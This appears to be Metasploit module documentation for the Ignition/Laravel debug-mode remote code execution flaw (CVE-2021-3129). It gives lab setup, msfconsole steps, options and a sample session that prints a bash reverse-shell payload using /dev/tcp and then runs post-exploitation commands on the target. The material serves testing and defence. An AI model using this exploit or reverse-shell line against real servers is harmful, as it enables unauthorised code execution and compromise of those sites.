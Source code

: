 ## Vulnerable Application

Ignition prior to 2.5.2, as used in Laravel and other products, allows unauthenticated remote malicious users to execute arbitrary code because of insecure usage of file_get_contents() and file_put_contents(). This is exploitable on sites using debug mode with Laravel prior to 8.4.2.

This module has been tested successfully on Debian 10.7 (x86_64) with kernel version 5.10.60.

The easiest way to deploy a vulnerable application is to use the image from the vulhub project available over docker compose [here](https://github.com/vulhub/vulhub/blob/master/laravel/CVE-2021-3129/docker-compose.yml). However this container doesn't come
with the required log file created, then it needs to be created manually in the path `/var/www/storage/logs/laravel.log`.

## Verification Steps
Confirm that functionality works:
1. Start `msfconsole`
2. `use exploit/multi/php/ignition_laravel_debug_rc`
3. set `RHOSTS` and `RPORT`
4. Confirm the target is vulnerable: `check`
5. Confirm that the target is vulnerable: `The target is vulnerable.`
6. It come already with a default payload `cmd/unix/reverse_bash`
7. `set LHOST`
8. `exploit`
9. Confirm you have now a cmd session

## Options

### TARGETURI (required)

The path to the Ignition _solutions_ file to exploit. By default, the path is  `/_ignition/execute-solution`.

### LOGPATH (optional)

Path to Laravel's log file, which contains every PHP error and stack trace. By default it is stored in `storage/logs/laravel.log`. If not defined this module will try to automatically determine it based on the stack trace of the application.


## Scenarios
```
msf6 exploit(multi/php/ignition_laravel_debug_rce) > exploit

[+] bash -c '0<&65-;exec 65<>/dev/tcp/172.28.241.244/4444;sh <&65 >&65 2>&65'
[*] Started reverse TCP handler on 172.28.241.244:4444
[*] Checking component version to 172.28.240.1:8080
[*] Debug mode is enabled.
[*] Found PHP 7.4.15 running Laravel 8.26.1
[*] Found log file /var/www/storage/logs/laravel.log
[*] Command shell session 2 opened (172.28.241.244:4444 -> 172.28.240.1:56840 ) at 2022-02-08 11:32:12 +0100

id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
php /var/www/artisan --version
Laravel Framework 8.26.1
head ../vendor/facade/ignition/CHANGELOG.md
# Changelog

All notable changes to `ignition` will be documented in this file

## 2.5.1 - 2020-11-13

- add support for LiveWire component urls

## 2.5.0 - 2020-10-27

uname -a
Linux 9f96df025a2b 5.10.60.1-microsoft-standard-WSL2 #1 SMP Wed Aug 25 23:20:18 UTC 2021 x86_64 GNU/Linux
cat /etc/debian_version
10.7
exit
[*] 172.28.240.1 - Command shell session 2 closed.
```

### Version and OS
This module has been tested successfully on Debian 10.7 (x86_64) with kernel version 5.10.60. Details as below: 

* PHP 7.4.1
* Laravel Framework 8.26.1
* Ignition 2.5.1
* Debian 10.7
